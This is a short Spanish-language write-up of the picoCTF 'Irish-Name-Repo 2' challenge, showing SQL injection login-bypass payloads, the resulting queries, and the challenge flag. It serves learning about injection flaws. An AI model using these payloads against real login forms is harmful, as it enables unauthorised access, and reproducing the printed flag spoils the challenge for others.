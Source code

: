 ```yaml
---
title: Irish-Name-Repo 2
date: 2025-05-23 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, irish name repo 2, sqli]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>Irish-Name-Repo 2
Author: Xingyang Pan
Description
There is a website running at https://jupiter.challenges.picoctf.org/problem/64649/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
{: .prompt-tip }


Ya había visitado esta web antes, en otro reto, de nuevo me fijo en el request en el navegador y vemo el parámetro debug, lo cambio a 1 y vuelvo a introducir admin:admin , pero parece que realmente se han tomado en serio securizar la página y arroja este mensaje cuando pruebo a inyectar en el username o en password "SQLi detected.". 

>debug=1&username=admin&password=a' or 1 = 1

>debug=1&username=admin' or '1=1'--


``` html
username: admin
password: a' or 1 = 1
SQL query: SELECT * FROM users WHERE name='admin' AND password='a' or 1 = 1'

SQLi detected.

username: admin' or '1=1'--
password: 
SQL query: SELECT * FROM users WHERE name='admin' or '1=1'--' AND password=''

SQLi detected.
```

Después de esto te da que pensar que la pista dice que el password se ha filtrado. Empecé a imaginar que sería el apellido o nombre de alguno de los artistas que hay en la web quizás?. Hay una conversación interesante donde aparece un usuario __JimmyMcTrollface__ probablemente el hacker que se ha creado una cuenta . Finalmente pruebo una inyección bastante simple que funciona.

>username: admin'--

``` html
username: admin'--
password: 1234
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='1234'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
```

Si sanitizaron de alguna manera las inyecciones SQLi, lo hicieron mal. 

flag:  **picoCTF{m0R3_SQL_plz_aee925db}**